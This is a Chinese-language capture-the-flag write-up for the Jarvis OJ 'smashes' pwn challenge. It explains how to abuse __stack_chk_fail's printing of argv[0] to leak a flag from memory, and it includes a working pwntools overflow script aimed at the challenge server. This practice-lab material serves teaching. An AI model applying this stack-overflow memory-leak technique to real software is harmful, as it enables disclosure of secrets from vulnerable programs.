 #### smashes

binary: [smashes.44838f6edd4408a53feb2e2bbfe5b229](http://ctf.leaflxh.com:3000/Jarvis/pwn/smashes.44838f6edd4408a53feb2e2bbfe5b229)

>Smashes, try your best to smash!!!



用checksec发现开启了stack canary

```
$ checksec smashes.44838f6edd4408a53feb2e2bbfe5b229   
   	Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    FORTIFY:  Enabled
```

flag在内存中

调试发现canary的值带00，绕不过去。

不过可以通过利用stack_chk_failed函数的特性来达到任意内存读取：

在检测到canary被破坏后stack_chk_failed()函数就会执行，该函数作用是打印消息“当前栈已被破坏”，并且打印出当前可执行文件的名称。这个名称字符串的指针是main函数 char **argv下的argv[0]，通过篡改这个字符串的指针，比如改成flag字符串的指针，那么当该函数被调用的时候，就不是打印文件的名称，而是打印flag字符串。



```python
from pwn import *
import time
DBG = False

argv0_ptr = 0x7fffffffe028
rsp_ptr = 0x7fffffffde10

distance = argv0_ptr - rsp_ptr
flag_ptr = 0x400d21

payload = "A" * distance + p64(flag_ptr)


if DBG:
    session = process("./smashes.44838f6edd4408a53feb2e2bbfe5b229")
else:
    session = remote("pwn.jarvisoj.com", "9877")
    time.sleep(5)



print session.recv()
session.sendline(payload)
time.sleep(3)

print session.recv()
session.sendline("ABC")
time.sleep(3)
print session.recv()

```

不知为何本地调试时无论如何打印出来的都是\<unknow\>,服务端测试没问题